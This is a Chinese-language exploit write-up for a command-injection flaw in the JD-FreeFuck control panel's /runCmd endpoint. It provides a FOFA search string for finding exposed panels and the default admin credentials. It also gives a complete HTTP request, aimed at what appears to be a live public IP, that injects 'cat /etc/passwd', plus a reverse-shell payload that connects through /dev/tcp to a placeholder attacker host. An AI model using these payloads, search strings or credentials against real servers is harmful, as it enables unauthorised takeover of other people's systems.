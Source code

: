 # JD-FreeFuck 后台命令执行漏洞

## 漏洞描述

JD-FreeFuck 存在后台命令执行漏洞，由于传参执行命令时没有对内容过滤，导致可以执行任意命令，控制服务器

项目地址： https://github.com/meselson/JD-FreeFuck

## 漏洞影响

> [!NOTE]
>
> JD-FreeFuck

## FOFA

> [!NOTE]
>
> title="京东薅羊毛控制面板"

## 漏洞复现

访问后登录页面如下

![](http://wikioss.peiqi.tech/vuln/jd-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

默认账号密码为 

**useradmin/supermanito**

![](http://wikioss.peiqi.tech/vuln/jd-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

发送如下请求包执行命令

```
POST /runCmd HTTP/1.1
Host: 101.200.189.251:5678
Content-Length: 50
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: connect.0.6356777726800276=s%3Av1W6DxlSqnPpVgvMCItxElFeKI1Psh4i.eE4ORs0Yz30N0TOg1pUVpOqrpIHyrqIimuXJVO8lE7U
Connection: close

cmd=bash+jd.sh+%3Bcat /etc/passwd%3B+now&delay=500
```

其中 cmd 参数存在命令注入

![](http://wikioss.peiqi.tech/vuln/jd-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

反弹shell

```
cmd=bash+jd.sh+%3Bbash+-c+'exec+bash+-i+%26%3E%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999+%3C%261'%3B+now&delay=500
```

![](http://wikioss.peiqi.tech/vuln/jd-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 参考文章

@桃花心 师傅

https://www.secquan.org/Discuss/1071932#reply3